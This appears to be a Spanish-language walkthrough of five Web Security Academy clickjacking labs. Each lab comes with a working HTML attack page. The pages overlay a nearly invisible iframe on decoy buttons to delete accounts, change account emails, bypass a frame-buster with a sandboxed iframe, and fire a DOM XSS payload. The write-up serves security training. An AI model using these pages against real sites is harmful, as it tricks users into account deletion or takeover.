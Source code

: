 # Clickjacking

## Reto 1: Clickjacking básico con protección de token CSRF

Este laboratorio incluye la función de inicio de sesión y un botón para eliminar cuenta, protegido por un token CSRF. Un usuario hará clic en elementos que muestren la palabra "clic" en un sitio web falso.

Para resolver el laboratorio, crea un código HTML que enmarque la página de la cuenta y engañe al usuario para que la elimine. El laboratorio se resuelve al eliminar la cuenta.

Puede iniciar sesión en su propia cuenta utilizando las siguientes credenciales: wiener:peter 

Este laboratorio muestra cómo realizar un ataque de clickjacking incluso cuando la acción sensible está protegida por un token CSRF. Se aprovecha la falta de encabezados de protección como X-Frame-Options para incrustar la página vulnerable dentro de un iframe en un sitio externo.

La estrategia consiste en superponer un elemento visual atractivo como un botón que diga Click me justo encima del botón de eliminar cuenta. Para ello se ajustan las propiedades de posición, tamaño y opacidad del iframe de forma que el usuario, al intentar hacer clic en el contenido visible del sitio señuelo, en realidad pulse sobre la acción destructiva del sitio objetivo.

Este tipo de ataque es posible cuando no existen medidas que impidan la carga del sitio objetivo en iframes de terceros, y es aún más efectivo cuando el usuario realiza la acción de manera involuntaria al seguir una instrucción aparentemente inofensiva como haz clic aquí.



```html
<style>
    iframe {
        position:relative;
        width:700px;
        height: 500px;
        opacity: 0.1;
        z-index: 2;
    }
    div {
        position:absolute;
        top:500px;
        left:60px;
        z-index: 1;
    }
</style>
<div>Click me</div>
<iframe src="https://0adf000104c2e8458060033100b60023.web-security-academy.net/my-account"></iframe>
```

## Reto 2: Clickjacking con datos de entrada de formulario precargados desde un parámetro de URL

Este laboratorio amplía el ejemplo básico de clickjacking del Laboratorio: Clickjacking básico con protección de token CSRF . El objetivo del laboratorio es cambiar la dirección de correo electrónico del usuario rellenando previamente un formulario con un parámetro URL e incitando al usuario a hacer clic inadvertidamente en el botón "Actualizar correo electrónico".

Para resolver el laboratorio, cree un HTML que enmarque la página de la cuenta y engañe al usuario para que actualice su dirección de correo electrónico haciendo clic en un señuelo de "Haz clic aquí". El laboratorio se resuelve al cambiar la dirección de correo electrónico.

Puede iniciar sesión en su propia cuenta utilizando las siguientes credenciales: wiener:peter 

En este caso, el objetivo es engañar al usuario para que pulse sobre el botón de actualizar correo electrónico, el cual ha sido rellenado automáticamente con una dirección maliciosa pasada por parámetro.

El ataque se basa en superponer un iframe con el formulario de cuenta sobre un botón señuelo que diga Click me. La URL del iframe incluye un parámetro email con el valor que se desea establecer. De este modo, el formulario se precompleta sin necesidad de interacción directa con el campo.

El usuario, al hacer clic en el señuelo, en realidad está enviando el formulario del iframe con el nuevo correo ya cargado. Este tipo de ataque demuestra que incluso sin vulnerabilidades en el backend, una interfaz mal protegida puede ser manipulada visualmente para obtener acciones críticas sin el conocimiento del usuario.



```html
<style>
    iframe {
        position:relative;
        width:700px;
        height: 500px;
        opacity: 0.1;
        z-index: 2;
    }
    div {
        position:absolute;
        top:450px;
        left:60px;
        z-index: 1;
    }
</style>
<div>Click me</div>
<iframe src="https://0a46007a041591aa80bed5b10053007b.web-security-academy.net/my-account?email=hacked@hacked.com"></iframe>
```

## Reto 3: Clickjacking con un script frame-buster

Este laboratorio está protegido por un detector de marcos que impide que el sitio web sea enmarcado. ¿Puedes sortear el detector de marcos y realizar un ataque de clickjacking que cambie la dirección de correo electrónico del usuario?

Para resolver el laboratorio, cree un HTML que enmarque la página de la cuenta y engañe al usuario para que cambie su dirección de correo electrónico haciendo clic en "Haz clic aquí". El laboratorio se resuelve al cambiar la dirección de correo electrónico.

Puede iniciar sesión en su propia cuenta utilizando las siguientes credenciales: wiener:peter 

Este laboratorio introduce una protección habitual contra ataques de clickjacking conocida como frame buster. Se trata de un script que impide que la página objetivo sea cargada dentro de un iframe, bloqueando así la superposición de contenidos engañosos. Sin embargo, el ataque sigue siendo posible si se neutraliza adecuadamente este mecanismo.

El truco consiste en usar el atributo sandbox dentro del iframe, permitiendo solo la ejecución de formularios mediante allow-forms. Esto impide que el script de ruptura del marco (normalmente basado en comprobar si ‘window.top !== window.self‘) se ejecute, ya que no tiene los permisos necesarios para acceder al contexto superior.

El atacante construye una página maliciosa que muestra un botón señuelo con el texto Click me y coloca justo debajo el iframe que contiene el formulario de actualización de email con el campo ya preestablecido a través de un parámetro en la URL.



```html`
<style>
    iframe {
        position:relative;
        width:800px;
        height: 600px;
        opacity: 0.1;
        z-index: 2;
    }
    div {
        position:absolute;
        top:450px;
        left:60px;
        z-index: 1;
    }
</style>
<div>Click me</div>
<iframe sandbox="allow-forms" src="https://0a0e003c04cc32fa80b42be800660044.web-security-academy.net/my-account?email=pwnd@hacked.com"></iframe>
```

## Reto 4: Explotación de la vulnerabilidad de clickjacking para activar XSS basado en DOM



Este laboratorio contiene una vulnerabilidad XSS que se activa con un clic. Construya un ataque de clickjacking que engañe al usuario para que haga clic en el botón "Haz clic aquí" y llame al... print() función. 

En este laboratorio se combina una vulnerabilidad de clickjacking con una XSS basada en DOM que se activa mediante un clic. El objetivo es engañar a la víctima para que pulse un botón en una página aparentemente inocente, lo que desencadena la ejecución de la función print() desde un payload XSS.

Para lograrlo, se incrusta la URL del formulario de feedback en un iframe, manipulando los parámetros de la URL para incluir un payload malicioso en el campo name. Este payload se aprovecha de una mala gestión de datos en el DOM, concretamente en la parte de la página que muestra los resultados del envío (#feedbackResult).

Mediante el uso de estilos CSS, se superpone un botón señuelo encima del botón real de “Submit feedback”. Gracias a la opacidad casi nula del iframe, la víctima no ve el contenido real del sitio y cree estar interactuando con la interfaz legítima.



```html
<style>
    iframe {
        position:relative;
        width:900px;
        height: 900px;
        opacity: 0.1;
        z-index: 2;
    }
    div {
        position:absolute;
        top:800px;
        left:90px;
        z-index: 1;
    }
</style>
<div>Click me</div>
<iframe  src="https://0aae001b04bc99e5809cad5300cd0007.web-security-academy.net/feedback?name=%3Cimg%20src=0%20onerror=print()%3E&email=hola@hola.com&subject=test&message=probando"></iframe>

```

## Reto 5:Clickjacking de varios pasos


Este laboratorio cuenta con funciones de cuenta protegidas por un token CSRF y un cuadro de diálogo de confirmación para proteger contra el secuestro de clics. Para resolver este laboratorio, cree un ataque que engañe al usuario para que haga clic en el botón de eliminar cuenta y en el cuadro de diálogo de confirmación mediante las acciones señuelo "Haz clic primero" y "Haz clic después". Necesitará usar dos elementos para este laboratorio.

Puede iniciar sesión en la cuenta usted mismo utilizando las siguientes credenciales: wiener:peter 

En este laboratorio se presenta una defensa adicional contra el clickjacking: además de un token CSRF, el botón de eliminación de cuenta incluye una ventana de confirmación. Para explotar esta funcionalidad, el ataque debe engañar a la víctima para que realice dos clics consecutivos en ubicaciones específicas: uno para activar el botón de “Eliminar cuenta” y otro para confirmar la acción.

Para lograrlo, se estructura una página con dos capas señuelo (Click me first y Click me next), alineadas con los botones reales del formulario y del cuadro de confirmación, respectivamente. El iframe que contiene la página objetivo se vuelve prácticamente invisible gracias al uso de opacidad muy baja.

Una vez que la víctima interactúa con los dos elementos señuelo, el proceso completo de eliminación de cuenta se ejecuta con éxito, incluyendo la confirmación del diálogo. Este ataque demuestra cómo el clickjacking puede seguir siendo efectivo incluso en flujos de múltiples pasos si no se implementan defensas robustas adicionales como ‘frame-ancestors‘ o ‘same-origin‘ en ‘Content-Security-Policy‘.


```html
<style>
    iframe {
        position:relative;
        width:900px;
        height: 900px;
        opacity: 0.1;
        z-index: 2;
    }
    .firstClick {
        position:absolute;
        top:500px;
        left:80px;
        z-index: 1;
    }
    .secondClick {
        position:absolute;
        top:300px;
        left:200px;
        z-index: 1;
    }
</style>
<div class="firstClick">Click me first</div>
<div class="secondClick ">Click me next</div>
<iframe  src="https://0af9009b04a020ca8824e417004600af.web-security-academy.net/my-account"></iframe>
```
